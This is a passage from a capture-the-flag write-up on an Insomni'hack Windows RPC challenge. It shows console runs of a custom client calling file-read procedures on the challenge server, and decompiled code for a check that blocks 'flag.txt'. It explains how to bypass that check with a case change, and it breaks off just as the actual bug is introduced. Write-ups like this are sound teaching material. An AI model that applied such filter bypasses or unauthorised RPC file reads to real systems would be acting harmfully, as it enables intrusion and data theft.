 If we try to read the content of the flag using `InsoRpcReadFile`, we get the following error: `0x80070057` or `E_INVALIDARG`.

```console
C:\Users\lab-user\Downloads\Challenge>Solution.exe file insobug.insomnihack.ch 8000 limited Insomnia1 "C:\Program Files\Winternals1\flag.txt"
[*] Using impersonation level: (null) (3)
[*] String Binding: ncacn_http:insobug.insomnihack.ch[8000]
[*] InsoRpcReadFile ret: -2147024809 - 0x80070057
```

This error is the result of the following check.

```cpp
if ( (param_2 == NULL) || (param_3 == NULL)) || (param_4 == NULL)) || !FUN_7ff6d3382b10(param_2) ) {
    hResult = E_INVALIDARG;
    goto end;
}
```

We understand that the input parameters must not be null, but it seems that there is also a check on `param_2` with `FUN_7ff6d3382b10(param_2)`.

This function performs several checks on the input string. In particular, it checks whether it contains `flag.txt` and fails if so. The search is done with `wcsstr()` which is case-sensitive. Therefore, it can be easily bypassed by specifying a path such as `C:\Program Files\Winternals1\Flag.txt`.

> Orignally, I did not intend to provide the filename in the challenge description. So, I added this dummy check as a pretext for giving this information.
{: .prompt-info }

Even then, we still get an error: `0x80070005` or `E_ACCESSDENIED`.

```console
C:\Users\lab-user\Downloads\Challenge>Solution.exe file insobug.insomnihack.ch 8000 limited Insomnia1 "C:\Program Files\Winternals1\Flag.txt"
[*] Using impersonation level: (null) (3)
[*] String Binding: ncacn_http:insobug.insomnihack.ch[8000]
[*] InsoRpcReadFile ret: -2147024891 - 0x80070005
```

There is also the procedure `InsoRpcReadFilePrivileged`, but we get the exact same result.

```console
C:\Users\lab-user\Downloads\Challenge>Solution.exe filep insobug.insomnihack.ch 8000 limited Insomnia1 "C:\Program Files\Winternals1\Flag.txt"
[*] Using impersonation level: (null) (3)
[*] String Binding: ncacn_http:insobug.insomnihack.ch[8000]
[*] InsoRpcReadFilePrivileged ret: -2147024891 - 0x80070005
```

### The actual bug!

At this point, we are getting very close, but we are still missing some key information. Up until now, we have only leveraged what was offered by the RPC server, but we did not exploit any vulnerability per se.
